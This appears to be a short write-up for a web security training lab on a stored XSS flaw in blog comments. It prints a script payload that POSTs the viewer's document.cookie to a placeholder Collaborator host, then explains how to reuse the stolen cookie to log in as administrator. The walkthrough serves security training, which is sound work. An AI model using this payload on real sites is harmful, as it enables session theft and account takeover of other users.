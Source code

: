 
This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.


Use collaborator to open a server, and using the following code paste your URL next to fetch:

This script will make anyone who views the comment issue a POST request containing their cookie to your subdomain on the public Collaborator server.


`<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>`


Paste it in the comment and you will get administrator's account cookie in a request, copy and paste it in your request of /my-account and you will be logged as an administrator.

